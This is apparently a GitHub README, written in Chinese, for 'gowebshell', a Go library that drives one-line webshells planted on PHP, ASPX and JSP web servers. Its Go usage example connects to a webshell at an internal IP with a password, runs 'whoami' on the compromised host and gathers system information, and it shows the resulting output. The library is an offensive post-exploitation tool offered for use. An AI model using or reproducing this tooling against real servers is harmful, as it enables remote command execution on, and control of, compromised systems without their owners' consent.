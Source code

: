 # gowebshell

使用go连接常见一句话木马，进行文件管理和命令执行，获取基本信息等功能

## 快速使用

```shell
go get github.com/zyylhn/gowebshell
```

```go
//必须指定一句地址，和链接密码，其他选择性指定
webshell,err:=gowebshell.NewWebshell("http://172.16.95.24/test.php","cc123","",nil)
	if err!=nil{
		fmt.Println(err)
		return
	}
//执行命令，必须要执行命令的目录，命令和使用的shell，windows只能使用cmd，和脚本类型
cmd,err:=webshell.ExecCommand("/usr","whoami","/bin/sh", gowebshell.PhpScriptCmd,nil)
	if err!=nil{
		fmt.Println(err)
		return
	}
//命令结果存在cmd的result中
fmt.Println(cmd.Result)
//获取基本信息，指定脚本类型
info,err:=webshell.GetBaseInfo(gowebshell.JspScriptBaseInfo,nil)
  if err!=nil{
    fmt.Println(err)
    return
  }
  fmt.Println(info)

```

以上会输出

```
www-data
&{/var/www/html / Linux kali 5.10.0-kali3-amd64 #1 SMP Debian 5.10.13-1kali1 (2021-02-08) x86_64 www-data}

```

## TODO

- [x] 支持php
- [x] 支持aspx
  - [x] jscript执行
  - [ ] C#执行
- [x] 支持jsp
- [ ] 支持asp
- [x] 获取基本信息
- [x] 执行命令
- [ ] 文件管理

